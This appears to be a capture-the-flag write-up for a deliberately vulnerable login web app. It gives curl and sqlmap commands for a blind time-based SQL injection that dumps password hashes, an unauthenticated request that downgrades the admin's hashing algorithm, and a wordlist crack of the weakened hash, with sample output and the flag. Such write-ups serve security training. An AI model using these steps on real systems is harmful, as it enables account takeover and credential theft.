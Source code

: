 # Solution

Starting by looking through the code, we can note a few interesting things.

- MySQL driver are use.
- There is a changeHash endpoint that changes the hash algorithm for a user using userid and is not protected.
- There is an input that is not sanitized in the getUserID endpoint which make it vulnerable to SQL injection, but it is not directly use in a login form and no data is returned.
- In the register endpoint, if trying to register with an existing username, it will return the userid of the username in the URL.
- We can see to the database schema.

For this solution, we can define the IP and port of the server.

```shell
ip=<ip>
port=<port>
```

## UserID

Then we register a user with the username admin so we can get the userid.

```shell
curl  -Ls -o /dev/null -w %{url_effective} "http://$ip:$port/register" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username=admin&password=password&email=email%40mail.com&name=name' \
  --insecure
```

So admin userid is 1.

## SQLi

SQL injection is possible in the getUserID endpoint. Since we do not get any data back and is not use in a login form, we can use a blind time-based injection to get the hash of the password. Using SQLMap, since this type of injection is really slow, we can order by id, which will start with 1 and therefore start with the admin.
Since the injection is on the username, we should use a username that doesn't exist. Otherwise, the server calculate the hash everytime, which takes a lot of time for bcrypt 16.

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T
```

When we see that it starts with `$2a$16$`, which is 'bcrypt' with 16 rounds, we can stop since it is very slow to crack.

![alt text](sqlmap_1.png)

## Change Hash

Get the hashing algorithms:

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,algo,round -T HashingAlgorithm -D userDB --dump  --batch --dbms MySQL -p username --technique=T

Database: userDB
Table: HashingAlgorithm
[3 entries]
+----+-------------+-------+
| id | algo        | round |
+----+-------------+-------+
| 1  | bcrypt      | 10    |
| 2  | sha256      | 64    |
| 3  | blake2b_256 | 1     |
+----+-------------+-------+
```

![alt text](sqlmap_2.png)

We can change the hashing algorithm of the admin, since this endpoint is not authentificated. Using blake2b with 1 round is very fast to crack.

```shell
curl "http://$ip:$port/changeHash" \
  --data-raw 'userid=1&algoid=3' \
  --insecure
```

Next time, the admin login, the password will be changed. In the information given in the challenge and in the admin_login.sh script, we can see it should be every 30 seconds.

## SQLi 2

Running SQLMap again, we can see that the hash is now blake2b with 1 round.

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T --flush-session

+----+------------------------------------------------------------------+------------+
| id | password_hash                                                    | salt       |
+----+------------------------------------------------------------------+------------+
| 1  | 1a5708112d2d7df23e4b2d5b60d5470e8cd01ce48ed8d5dae8d32901d91dc326 | WKgDlQLWIE |
+----+------------------------------------------------------------------+------------+
```

![alt text](sqlmap_3.png)

## Crack

Using a simple script like solve.go, we can crack the hash in a few seconds.

```shell
go run solve.go 1a5708112d2d7df23e4b2d5b60d5470e8cd01ce48ed8d5dae8d32901d91dc326 WKgDlQLWIE rockyou.txt
Password found:  drakthull1
```

So the flag is: `flag-drakthull1`
